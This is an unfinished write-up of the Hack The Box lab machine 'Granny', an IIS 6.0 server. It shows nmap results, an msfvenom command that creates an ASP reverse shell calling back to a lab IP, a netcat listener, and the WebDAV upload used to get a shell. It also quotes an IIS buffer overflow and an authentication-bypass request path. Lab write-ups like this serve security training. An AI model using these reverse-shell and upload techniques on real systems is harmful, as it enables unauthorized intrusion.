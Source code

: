 # * Granny
`* Still in progress`

## Recon

The tags on [this box](https://app.hackthebox.com/machines/14)  
> - Windows
> - Patch Management  
> - Web

Difficulty:
> Easy

The only open port is 80. There is an IIS 6.0 webserver running. The homepage appears to be broken:

![[Pasted image 20220115184455.png]]

IIS 6.0 is way old. There's gotta be exploits for it out there. I reviewed EDB exploits using searchsploit, but none of them seem exciting. I decided to check with [Hacktricks's WebDav page](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) and was happy to find the following method to gain code execution.

For the shell, I'll be using msfvenom to create a reverse tcp shell for windows.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f asp -o reverse.asp
```

![[Pasted image 20220115185937.png]]

Now start a listener to catch the reverse shell.

```bash
nc -nvlp 4444
```

Then trigger the exploit by visiting the malicious page we just uploaded.

![[Pasted image 20220115190110.png]]

Look, a shell!

![[Pasted image 20220115190203.png]]

System Info

```
> Host Name:                 GRANNY  
> OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition  
> OS Version:                5.2.3790 Service Pack 2 Build 3790  
> OS Manufacturer:           Microsoft Corporation  
> OS Configuration:          Standalone Server  
> OS Build Type:             Uniprocessor Free  
> Registered Owner:          HTB  
> Registered Organization:   HTB  
> Product ID:                69712-296-0024942-44782  
> Original Install Date:     4/12/2017, 5:07:40 PM  
> System Up Time:            0 Days, 0 Hours, 53 Minutes, 6 Seconds  
> System Manufacturer:       VMware, Inc.  
> System Model:              VMware Virtual Platform  
> System Type:               X86-based PC  
> Processor(s):              1 Processor(s) Installed.  
>   [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz  
> BIOS Version:              INTEL  - 6040000  
>  Windows Directory:         C:\WINDOWS  
> System Directory:          C:\WINDOWS\system32  
> Boot Device:               \Device\HarddiskVolume1  
> System Locale:             en-us;English (United States)  
> Input Locale:              en-us;English (United States)  
> Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk  
> Total Physical Memory:     1,023 MB  
> Available Physical Memory: 709 MB  
> Page File: Max Size:       2,470 MB  
> Page File: Available:      2,255 MB  
> Page File: In Use:         215 MB  
> Page File Location(s):     C:\pagefile.sys  
> Domain:                    HTB  
> Logon Server:              N/A  
> Hotfix(s):                 1 Hotfix(s) Installed.  
> [01]: Q147222  
> Network Card(s):           N/A 
```


## Privesc

I used the same technique to upload winpeas.bat to do some more enumeration.

Didn't see anything obvious in the WinPEAS output, so I took a break and added an analysis/lessons learned to the other pages. One of the mistakes I made was to jump to exploitation before finishing enumeration. Enumerate, enumerate, enumerate. I'm going to try a different format for writeups on the next few boxes, switching to that format now (sorry readers, this is going to be a messy writeup).



## NMAP scan results

```text
PORT   STATE SERVICE REASON          VERSION                                                                      80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0                                                      | http-methods:                                                                                                   |   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST                                                                                                                 |_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT             |_http-title: Under Construction                                                                                  | http-webdav-scan:                                                                                               |   Server Date: Sun, 16 Jan 2022 00:28:36 GMT                                                                    |   WebDAV type: Unknown                                                                                          |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                                                                      |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK                                                                                                                |_  Server Type: Microsoft-IIS/6.0                                                                                |_http-server-header: Microsoft-IIS/6.0                                                                           Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port             Device type: general purpose                                                                                      Running (JUST GUESSING): Microsoft Windows 2003|2008|2000|XP (91%)

```

# Services

## :80 - IIS 6.0
From [Wikipedia](https://en.wikipedia.org/wiki/Internet_Information_Services)

> **Internet Information Services** (**IIS**, formerly **Internet Information Server**) is an extensible [web server](https://en.wikipedia.org/wiki/Web_server "Web server") software created by [Microsoft](https://en.wikipedia.org/wiki/Microsoft "Microsoft") for use with the [Windows NT](https://en.wikipedia.org/wiki/Windows_NT "Windows NT") family.[[2]](https://en.wikipedia.org/wiki/Internet_Information_Services#cite_note-2) IIS supports [HTTP](https://en.wikipedia.org/wiki/HTTP "HTTP"), [HTTP/2](https://en.wikipedia.org/wiki/HTTP/2 "HTTP/2"), [HTTPS](https://en.wikipedia.org/wiki/HTTPS "HTTPS"), [FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol "File Transfer Protocol"), [FTPS](https://en.wikipedia.org/wiki/FTPS "FTPS"), [SMTP](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol "Simple Mail Transfer Protocol") and [NNTP](https://en.wikipedia.org/wiki/Network_News_Transfer_Protocol "Network News Transfer Protocol"). It has been an integral part of the Windows NT family since [Windows NT 4.0](https://en.wikipedia.org/wiki/Windows_NT_4.0 "Windows NT 4.0"), though it may be absent from some editions (e.g. Windows XP Home edition), and is not active by default.

### Exploit 1 - WebDav arbitrary file upload
[HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) explains how to upload an executable file to bypass filtering. This is the method I already did above, and I was able to get a shell as `network service`


### Exploit 2 - WebDav buffer overflow
[EDB-41738](https://www.exploit-db.com/exploits/41738)
> Description:Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.  

This exploit is pre-loaded with a calc.exe payload - if I want to exploit I'll need to replace the payload with a reverse shell or something similar.

### Exploit 3 - IIS 6.0 Authentication Bypass
[EDB-19033](https://www.exploit-db.com/exploits/19033)

> (tested on Windows Server 2003 SP1 running PHP5)  
Details:  
By sending a special request to the IIS 6.0 Service running PHP the attacker can successfully bypass access restrictions.  
>Take for example:  
1.) IIS/6.0 has PHP installed  
2.) There is a Password Protected directory configured  
--> An attacker can access PHP files in the password protected  
directory and execute them without supplying proper credentials.  
--> Example request (path to the file): /admin::$INDEX_ALLOCATION/index.php  
IIS/6.0 will gracefully load the PHP file inside the "admin" directory if the ::$INDEX_ALLOCATION postfix is appended to directory name.  
This can result in accessing administrative files and under special circumstances execute arbirary code remotely.